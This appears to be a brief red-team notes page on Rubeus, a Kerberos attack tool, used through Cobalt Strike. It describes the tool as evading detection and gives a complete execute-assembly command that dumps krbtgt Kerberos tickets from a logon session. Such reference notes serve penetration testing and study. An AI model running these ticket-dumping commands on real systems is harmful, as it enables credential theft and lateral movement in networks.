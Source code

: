 ```yaml
---
layout:     post
author:     0x5c4r3
type: docs
permalink: Rubeus
---
```



<span style="font-size: 35px; color:red"><b>Rubeus</b></span>
&nbsp;
Rubeus is SNEAKY and will not get detected as it uses proper Windows APIs.
Quick Reference CobaltStrike:
- <span style="color:red">triage</span>: To see all kerberos tickets in current session.
- <span style="color:red">dump</span>: to extract tickets from current session (i.e. <span style="color:red">execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /nowrap /luid:0x7049f /service:krbtgt</span>).
